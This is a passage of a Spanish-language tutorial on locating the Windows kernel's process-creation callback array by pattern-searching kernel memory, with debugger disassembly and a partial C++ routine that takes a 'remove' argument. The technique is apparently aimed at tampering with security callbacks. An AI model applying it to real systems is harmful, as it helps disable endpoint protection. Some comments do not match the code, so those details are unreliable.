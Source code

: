 fffff800`a4e61ff0 83e602          and     esi,2
fffff800`a4e61ff3 4c8bf9          mov     r15,rcx
fffff800`a4e61ff6 f6c201          test    dl,1
fffff800`a4e61ff9 0f8487000000    je      nt!PspSetCreateProcessNotifyRoutine+0xb6 (fffff800`a4e62086)
fffff800`a4e61fff 65488b2c2588010000 mov   rbp,qword ptr gs:[188h]
<mark>fffff800`a4e62008 4c8d2d712a4a00  lea     r13,[nt!PspCreateProcessNotifyRoutine (fffff800`a5304a80)]</mark>
fffff800`a4e6200f 83c8ff          or      eax,0FFFFFFFFh
fffff800`a4e62012 660185e4010000  add     word ptr [rbp+1E4h],ax
fffff800`a4e62019 90              nop
<mark>fffff800`a4e6201a 4533f6          xor     r14d,r14d
fffff800`a4e6201d 4183fe40        cmp     r14d,40h
fffff800`a4e62021 7338            jae     nt!PspSetCreateProcessNotifyRoutine+0x8b (fffff800`a4e6205b)</mark>
fffff800`a4e62023 4e8d24f500000000 lea     r12,[r14*8]
</pre>

Y así los bytes que podemos usar por ejemplo son los resaltados empezando por xor, pero necesitamos escribirlos en la variable c en inverso (little endian arch) que es `0x7340fe8341f63345`.

<pre>
lkd> dq ffffff800`a4e6201a L1
fffff800`a4e6201a  7340fe83`41f63345
</pre>

### Fijar el offset
A continuación necesitamos fijar el offset, para poder extraer y calcular la dirección del array de callback.

<pre>
void notifyRoutine::findprocesscallbackroutine(DWORD64 remove) {

	//buscamos en la memoria entre PoRegisterCoalescingCallback y EtwWriteEndScenario un conjunto específico de instrucciones junto a una LEA relativa que contiene el offset al array de callbacks PspCreateProcessNotifyRoutine.
	Offsets offsets = getVersionOffsets();
	const DWORD64 IoDeleteSymbolicLink = GetFunctionAddress("IoDeleteSymbolicLink");
	const DWORD64 RtlDestroyHeap = GetFunctionAddress("RtlDestroyHeap");

	//la dirección devuelta por la búsqueda de patrones está justo debajo de los desplazamientos.
	DWORD64 patternaddress = PatternSearch(IoDeleteSymbolicLink, RtlDestroyHeap, offsets.process);
	Log("[+] patternaddress: %p", patternaddress);

	DWORD offset;

	BOOL b = this->objMemHandler->VirtualRead(
		(DWORD64)patternaddress - <mark>0x0f</mark>,
		&offset,
		sizeof(offset)
	);

	//así que tomamos la dirección de 64 bits, pero tenemos una suma de 32 bits. Para evitar el desbordamiento, tomamos la primera mitad (desplazamiento a la derecha, desplazamiento a la izquierda), luego sumamos la dirección patrón DWORD de 32 bits con el desplazamiento de 32 bits, y restamos 8. *cringe*
	DWORD64 PspCreateProcessNotifyRoutineAddress = (((patternaddress) >> 32) << 32) + ((DWORD)(patternaddress)+offset) - <mark>0x0f</mark> + 0x04;
  ....................
}
</pre>
